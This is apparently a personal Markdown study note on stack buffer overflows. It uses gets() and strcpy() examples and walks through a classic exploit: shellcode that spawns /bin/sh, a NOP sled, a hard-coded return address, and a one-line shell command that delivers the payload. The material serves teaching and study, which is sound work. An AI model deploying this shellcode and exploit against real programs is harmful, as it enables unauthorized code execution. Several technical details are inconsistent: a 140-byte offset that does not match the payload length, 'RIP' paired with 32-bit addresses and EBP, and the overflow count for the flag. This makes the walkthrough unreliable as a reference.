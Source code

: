 > [!idea] Buffer Overflow
> A buffer overflow occurs when an operation **interacts with memory outside of a specified array**. This happens when a program writes data beyond the allocated buffer's boundaries.
> 
> - Occurs when accessing array elements beyond its defined size
> - Can overwrite adjacent memory, including other variables or critical data
> - Potential to modify return addresses, leading to arbitrary code execution

> [!example] Simple Buffer Overflow
> ```c
> char name[4];  // Array of 4 characters
> name[5] = 'a'; // Accessing 6th element (index 5) - out of bounds!
> ```
> This example demonstrates writing beyond the array's allocated memory, potentially overwriting adjacent data.

> [!consider] Implications of Buffer Overflows
> - **Data Corruption**: Overwriting adjacent variables or data structures
> - **Security Vulnerabilities**: Potential to modify sensitive information
> - **Control Flow Hijacking**: Overwriting return addresses to execute arbitrary code
> 
> Buffer overflows can be particularly dangerous when they allow attackers to manipulate a program's execution flow, potentially leading to unauthorized access or code execution.

> [!example] Vulnerable C Function
> ```c
> void vulnerable_function() {
>     char buffer[8];
>     int important_flag = 0;
>     
>     printf("Enter your name: ");
>     gets(buffer);  // Dangerous! No bounds checking
>     
>     if (important_flag != 0) {
>         printf("How did you do that?\n");
>     }
> }
> ```
> 
> In this example:
> - `buffer` is allocated 8 bytes
> - `important_flag` is stored adjacent to `buffer` in memory
> - `gets()` is used, which doesn't perform bounds checking
> - An attacker could input more than 8 characters to overflow `buffer` and modify `important_flag`
> 
> ```
> Memory layout:
> [buffer (8 bytes)][important_flag (4 bytes)]
> ```
> 
> By inputting 12 or more characters, an attacker overwrites `important_flag`, potentially bypassing security checks or altering program behavior.

> [!example] Buffer Overflow Exploit: Overwriting RIP
> Vulnerable C code:
> ```c
> void func(char *arg) {
>     char buffer[64];
>     strcpy(buffer, arg);  // Vulnerable: no bounds checking
> }
> 
> int main(int argc, char *argv[]) {
>     if (argc > 1) func(argv[1]);
>     return 0;
> }
> ```
> 
> Goal: Execute unauthorized commands by manipulating the program's memory.
> 
> We achieve this by:
> 1. Overflowing the buffer to overwrite the return address (RIP)
> 2. Replacing the return address with a pointer to our malicious code
> 3. Injecting our malicious code (shellcode) into the buffer
> 
> Exploit process:
> 1. Analyze the program's memory layout:
>    - Why? To determine how to craft our payload for successful exploitation
>    - We need to find:
>      - Where our input buffer starts (e.g., address 0xffffd1f0)
>      - Where the return address is stored (e.g., at 0xffffd27c)
>      - How many bytes between these points (offset: 140 bytes)
>    This information is crucial for precisely positioning our payload components
> 
> 2. Craft a payload based on our memory analysis:
>    ```python
>    nop_sled = "\x90" * 80
>    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>    filler = "A" * 26
>    new_rip = "\xfc\xd1\xff\xff"  # 0xffffd1fc in little-endian
>    payload = nop_sled + shellcode + filler + new_rip
>    ```
> 
>    Payload components and their purposes:
>    - NOP sled: 80 bytes of harmless instructions (0x90) to increase our chances of successful execution
>    - Shellcode: 23 bytes of machine code that will spawn a shell when executed
>    - Filler: 26 bytes of 'A's to reach the exact location of the return address
>    - New return address: Points to our NOP sled, ensuring our shellcode gets executed
> 
>    The NOP sled provides a larger target area in case our address guess is slightly off. We use little-endian format for the new return address to match the system's byte order.
> 
> 3. Feed the payload to the program:
>    ```bash
>    ./vulnerable_program $(python -c 'print "\x90"*80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
>    ```
>    This step delivers our carefully crafted payload to exploit the buffer overflow vulnerability
> 
> 4. Exploit execution:
>    - Our payload overflows the buffer, overwriting the original return address
>    - When func() returns, it jumps to our injected code instead of the intended location
>    - Execution slides through the NOPs to our shellcode
>    - The shellcode runs, spawning a shell with elevated privileges
> 
> This exploit succeeds because the program blindly copies input without checking its length, allowing us to overwrite critical data on the stack and control the program's execution flow.

> [!consider] Buffer Overflow in Stack Context
> 
> Let's visualize how our buffer overflow exploit manipulates the stack:
> 
> ```
> Before overflow:
> Higher addresses
> |                |
> | main's locals  |
> | arg (user input)|
> | return addr    | ← We want to overwrite this
> | saved EBP      |
> | local vars     |
> | buffer[64]     | ← Our input starts here
> |                | ← ESP
> Lower addresses
> 
> After overflow:
> Higher addresses
> |                |
> | main's locals  |
> | arg (user input)|
> | new return addr| ← Points to our NOP sled
> | overwritten EBP| ← Doesn't matter, we won't use it
> | filler (AAAAA) |
> | shellcode      |
> | NOP sled       | ← New execution starts here
> |                | ← ESP
> Lower addresses
> ```
> 
> How it works:
> 1. We fill the legitimate buffer space (64 bytes).
> 2. We continue writing past the buffer with our NOP sled and shellcode.
> 3. The filler ('A's) helps us reach the exact location of the saved EBP and return address.
> 4. We overwrite the saved EBP (this gets ignored).
> 5. Most crucially, we overwrite the return address with a pointer to our NOP sled.
> 
> When the function returns:
> - Instead of going back to `main`, it jumps to our NOP sled.
> - It "slides" down the NOPs to our shellcode.
> - Our shellcode executes, giving us control.
> 
> This works because we've changed the path of execution. When the function thinks it's returning to its caller, it's actually jumping into our injected code.

